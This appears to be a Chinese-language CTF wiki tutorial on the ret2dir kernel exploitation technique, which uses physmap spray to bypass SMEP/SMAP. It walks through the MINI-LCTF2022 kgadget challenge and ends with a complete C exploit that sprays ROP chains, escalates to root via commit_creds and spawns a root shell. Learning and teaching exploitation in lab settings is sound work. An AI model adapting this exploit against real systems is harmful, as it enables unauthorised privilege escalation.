

# ret2dir

ret2dir 是哥倫比亞大學網絡安全實驗室在 2014 年提出的一種輔助攻擊手法，主要用來**繞過 smep、smap、pxn 等用戶空間與內核空間隔離的防護手段**，原論文見[此處](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)。

我們首先來思考一下 [x86 下的 Linux kernel 的內存佈局](https://elixir.bootlin.com/linux/latest/source/Documentation/x86/x86_64/mm.rst)，存在着這樣的一塊區域叫做 `direct mapping area`，**線性地直接映射了整個物理內存空間**：

```rst
ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```

這塊區域的存在意味着：對於一個被用戶進程使用的物理頁框，**同時存在着一個用戶空間地址與內核空間地址到該物理頁框的映射**，即我們利用這兩個地址進行內存訪問時訪問的是同一個物理頁框。

當開啓了 SMEP、SMAP、PXN 等防護時，內核空間到用戶空間的直接訪問被禁止，**我們無法直接使用類似 ret2usr 這樣的攻擊方式**，但利用內核線性映射區對整個物理地址空間的映射，**我們可以利用一個內核空間上的地址訪問到用戶空間的數據，從而繞過 SMEP、SMAP、PXN 等傳統的隔絕用戶空間與內核空間的防護手段**。

下圖便是原論文中對 ret2dir 這種攻擊的示例，我們在用戶空間中佈置的 gadget 可以通過 direct mapping area 上的地址**在內核空間中訪問到**：


但需要注意的是**在新版的內核當中 direct mapping area 已經不再具有可執行權限**，因此我們很難再在用戶空間直接佈置 shellcode 進行利用，**但我們仍能通過在用戶空間佈置 ROP 鏈的方式完成利用**：



比較樸素的一種使用 ret2dir 進行攻擊的手法便是：

- 利用 mmap 在用戶空間大量噴射內存。

- 利用漏洞泄露出內核的“堆”上地址（通過 kmalloc 獲取到的地址），**這個地址直接來自於線性映射區**。

- 利用泄露出的內核線性映射區的地址**進行內存搜索**，從而找到我們在用戶空間噴射的內存。

**此時我們就獲得了一個映射到用戶空間的內核空間地址，我們通過這個內核空間地址便能直接訪問到用戶空間的數據，從而避開了傳統的隔絕用戶空間與內核空間的防護手段**。

需要注意的是我們往往沒有內存搜索的機會，因此需要**使用 mmap 噴射大量的物理內存寫入同樣的 payload**，之後再隨機挑選一個線性映射區上的地址進行利用，這樣我們就**有很大的概率命中到我們佈置的 payload 上**，這種攻擊手法也稱爲 `physmap spray`。

## 例題：MINI-LCTF2022 - kgadget

### 分析

還是慣例的給了個有漏洞的驅動，逆起來其實並不難，唯一有用的就是 ioctl，若 ioctl 的第二個參數爲 114514 則會將第三個參數作爲指針進行解引用，取其所指地址上值作爲函數指針進行執行（這裏編譯器將其優化爲 `__x86_indirect_thunk_rbx()` ，其實本質上就是 `call rbx` ）。

```c
__int64 __fastcall kgadget_ioctl(file *__file, unsigned int cmd, unsigned __int64 param)
{
  __int64 *v3; // rdx
  __int64 v4; // rsi
  __int64 result; // rax

  _fentry__(__file, cmd, param);
  if ( cmd == 114514 )
  {
    v4 = *v3;
    printk(&unk_370);
    printk(&unk_3A0);
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
    printk(&unk_3F8);
    _x86_indirect_thunk_rbx(&unk_3F8, v4);
    result = 0LL;
  }
  else
  {
    printk(&unk_420);
    result = -1LL;
  }
  return result;
}
```

在啓動腳本中開啓了 smep 與 smap 保護，所以我們不能夠直接在用戶空間構造 rop 然後 ret2usr，但是由於沒有開啓 kaslr，所以我們也不需要泄露內核基址：

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -smp cores=2,threads=2 \
    -kernel bzImage \
    -initrd ./rootfs.cpio \
    -nographic \
    -monitor /dev/null \
    -snapshot \
    -append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
    -no-reboot
```

### 漏洞利用

因爲我們沒法直接在內核空間直接找到一個這樣的目標（內核空間中雖然存在能夠這樣進行調用的函數指針，例如 tty 設備默認的函數表`ptm_unix98_ops` 一類的，但是這些函數表對應的函數指針對我們來說沒有用），所以我們需要手動去**在內核空間佈置我們的函數指針與 rop chain**，之後我們傳入我們佈置的 gadget 的地址就能進行利用了。

那麼我們如何在內核空間佈置我們的惡意數據呢？可能有的人就會想到 `msg_msg` 、`sk_buff` 等一系列常用來進行堆噴的結構體，**但其實我們並不需要顯式地在內核空間佈置數據，而是可以通過一個位於內核空間中的地址直接訪問到用戶空間中的數據**——那就是映射了整個物理內存的 `direct mapping area`。

我們不難想到的是，**我們爲用戶空間所分配的每一張內存頁，在內核空間中都能通過這塊內存區域訪問到**，因此我們只需要在用戶空間佈置惡意數據，之後再在內核空間的這塊區域中找到我們的用戶空間數據對應的內核空間地址即可，這便是 `ret2dir` ——**通過內核空間地址訪問到用戶空間數據**。

那麼現在又出現一個新的問題，**我們如何得知我們佈置的惡意數據在內核空間中的對應地址呢？**我們無法進行內核空間中的內存搜索，因此也就無法直接得知我們佈置的惡意數據在內核空間中的地址。

**答案是不需要搜索**，這裏我們使用[原論文](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)中的一種名爲 `physmap spray` 的攻擊手法——**使用 mmap 噴射大量的物理內存寫入同樣的 payload**，之後再隨機挑選一個相對靠近高地址的 direct mapping area 上的地址進行利用，這樣我們就**有很大的概率命中到我們佈置的 payload 上**。

經筆者實測當我們噴射的內存頁數量達到一定數量級時**我們總能準確地在 direct mapping area 靠中後部的區域命中我們的惡意數據**。

最後就是 gadget 的挑選與 rop chain 的構造了，我們不難想到的是可以通過形如 `add rsp, val ; ret` 的 gadget 跳轉到內核棧上的 `pt_regs` 上，在上面佈置提權的 rop chain，但在本題當中 `pt_regs` 只有 r9 與 r8 兩個寄存器可用，因爲 `pt_regs` 被出題人提前進行了清理：

```c
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
```

但其實僅有兩個寄存器也夠用了，我們可以利用 `pop_rsp ; ret` 的 gadget 進行棧遷移，**將棧遷移到我們在用戶空間所佈置的惡意數據上**，隨後我們直接在惡意數據靠後的位置佈置提權降落回用戶態的 rop chain 即可。

由於 buddy system 以頁爲單位進行內存分配，所以筆者也以頁爲單位進行 physmap spray，以求能消耗更多的物理內存，提高命中率，這裏筆者懶得去計算偏移了，所以在每張內存頁上佈置的都是“三段式”的 rop chain，將我們跳轉到 `pt_regs` 的 gadget 同時用作 slide code——

```
------------------------
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret
...
add rsp, val ; ret # 該gadget必定會命中下一個區域中的一條ret，之後便能平緩地“滑”到常規的提權 rop 上
------------------------
ret
ret
...
ret
------------------------
common root ROP chain
------------------------
```

### final exploit

最後的 exp 如下：

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

size_t  prepare_kernel_cred = 0xffffffff810c9540;
size_t  commit_creds = 0xffffffff810c92e0;
size_t  init_cred = 0xffffffff82a6b700;
size_t  pop_rdi_ret = 0xffffffff8108c6f0;
size_t  pop_rax_ret = 0xffffffff810115d4;
size_t  pop_rsp_ret = 0xffffffff811483d0;
size_t  swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00fb0 + 27;
size_t  add_rsp_0xe8_pop_rbx_pop_rbp_ret = 0xffffffff812bd353;
size_t  add_rsp_0xd8_pop_rbx_pop_rbp_ret = 0xffffffff810e7a54;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t  ret = 0xffffffff8108c6f1;

void    (*kgadget_ptr)(void);
size_t  *physmap_spray_arr[16000];
size_t  page_size;
size_t     try_hit;
int     dev_fd;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(void)
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void getRootShell(void)
{   
    puts("\033[32m\033[1m[+] Backing from the kernelspace.\033[0m");

    if(getuid())
    {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh");
    exit(0);// to exit the process normally instead of segmentation fault
}

void constructROPChain(size_t *rop)
{
    int idx = 0;

    // gadget to trigger pt_regs and for slide
    for (; idx < (page_size / 8 - 0x30); idx++)
        rop[idx] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;

    // more normal slide code
    for (; idx < (page_size / 8 - 0x10); idx++)
        rop[idx] = ret;

    // rop chain
    rop[idx++] = pop_rdi_ret;
    rop[idx++] = init_cred;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) getRootShell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
}

int main(int argc, char **argv, char **envp)
{
    saveStatus();

    dev_fd = open("/dev/kgadget", O_RDWR);
    if (dev_fd < 0)
        errExit("dev fd!");

    page_size = sysconf(_SC_PAGESIZE);

    // construct per-page rop chain
    physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    constructROPChain(physmap_spray_arr[0]);

    // spray physmap, so that we can easily hit one of them
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 15000; i++)
    {
        physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (!physmap_spray_arr[i])
            errExit("oom for physmap spray!");
        memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
    }

    puts("[*] trigger physmap one_gadget...");
    //sleep(5);

    try_hit = 0xffff888000000000 + 0x7000000;
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   0x22222222;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0x77777777;"
        "mov r9,    pop_rsp_ret;"   // stack migration again
        "mov r8,    try_hit;"
        "mov rax,   0x10;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   try_hit;"
        "mov rsi,   0x1bf52;"
        "mov rdi,   dev_fd;"
        "syscall"
    );
}
```

## REFERENCE

[http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir)